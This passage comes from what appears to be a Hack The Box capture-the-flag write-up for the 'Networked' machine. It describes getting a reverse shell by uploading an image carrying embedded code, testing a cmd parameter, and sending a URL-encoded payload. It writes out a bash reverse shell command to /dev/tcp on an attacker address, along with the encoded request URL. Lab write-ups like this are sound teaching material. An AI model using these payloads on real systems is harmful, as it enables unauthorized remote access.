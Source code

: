 ### reverse shell

Steps to have a reverse shell:

1. Download a malicious file that will allow us to execute code remotely:

![exiftool 2](/assets/img/htb/machines/linux/easy/networked/exif.png)

2. Test **cmd** parameter:

![Desktop View](/assets/img/htb/machines/linux/easy/networked/cmd.png)

3. Encode a bash reverse shell command with `burp`:

![burp](/assets/img/htb/machines/linux/easy/networked/burp.png)

- Bash reverse shell command: `bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'`

- URL: `http://10.10.10.146/uploads/10_10_14_7.php.jpg?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%37%2f%31%32%33%34%20%30%3e%26%31%27`

![reverse shell](/assets/img/htb/machines/linux/easy/networked/reverse-shell.png)
